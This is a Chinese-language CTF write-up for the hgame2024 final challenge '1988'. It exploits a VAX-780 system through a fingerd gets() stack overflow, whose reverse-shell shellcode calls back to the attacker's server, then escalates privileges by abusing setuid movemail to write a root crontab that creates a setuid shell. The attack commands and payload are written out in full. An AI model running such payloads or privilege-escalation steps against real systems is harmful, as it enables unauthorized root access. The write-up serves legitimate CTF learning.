 ```yaml
---
title: hgame2024 final - 1988
date: 2024/3/23 17:56:00
tags:
    - vax780
excerpt: 利用vax780的栈溢出和suid权限，通过定时任务实现RCE并获取flag。
---
```


{% note %}
Welcome to 1988, please read README.md carefully
{% endnote %}

用上了vax780的远古老题，并给出了详细的wp，以下是我粗略的解释

## 解题思路

首先利用`fingerd`的`gets`打栈溢出，执行任意shellcode，作者写的是反弹shell

> 没有服务器，frp还配不好，紧急借了台服务器

然后`movemail`设有suid位，通过修改定时任务达到rce的目的，创建一个有suid位的`sh`，
接着`cat /flag`即可

## EXPLOIT

**Command on remote server** :
```sh
nc -lvvp 4444
```

**Command on local machine** :
```sh
perl -e 'print "\x01"x303 . "\xdd\x00\xdd\x01\xdd\x02\xdd\x03\xd0\x5e\x5c\xbc\x8f\x61\x00\xd0\x50\x5a\xdd\x00\xdd\x00\xdd\x8f{YOUR REMOTE SERVER IP}\xdd\x8f\x02\x00\x11\x5c\xd0\x5e\x5b\xdd\x10\xdd\x5b\xdd\x5a\xdd\x03\xd0\x5e\x5c\xbc\x8f\x62\x00\xd0\x00\x5b\xdd\x5b\xdd\x5a\xdd\x02\xd0\x5e\x5c\xbc\x8f\x5a\x00\xf3\x02\x5b\xef\xdd\x8f\x2f\x73\x68\x00\xdd\x8f\x2f\x62\x69\x6e\xd0\x5e\x5b\xdd\x00\xdd\x00\xdd\x5b\xdd\x03\xd0\x5e\x5c\xbc\x3b" . "A"x109 . "\x00"x16 . "\x38\xea\xff\x7f"' | ncat -v $TARGET_IP 79
```
注意用自己服务器的ip替换`{YOUR REMOTE SERVER IP}`字段，保持字节的表达形式

**Commands on remote server** :
```sh
(umask 0 && /etc/movemail /dev/null /usr/lib/crontab.local)
ls -l /usr/lib/crontab.local
(echo "* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh"; echo  "* * * * * root rm -f /usr/lib/crontab.local") > /usr/lib/crontab.local
cat /usr/lib/crontab.local
```
稍等一会儿等待定时任务执行
```sh
ls -l /tmp/sh
/tmp/sh
cat /flag
```

成功拿到flag

## 后记

docker起不了，本地的环境久久无法正常工作，于是我决定直接打远程，所幸数据和原文都对的上，
作者给的脚本不需要多少修改就可以直接打通

同时这道题是对pwn一词的诠释，让我第一次见到了二进制利用在现实中的应用

## 参考文献

[解题所需的blog](https://www.rapid7.com/blog/post/2019/01/02/the-ghost-of-exploits-past-a-deep-dive-into-the-morris-worm/)
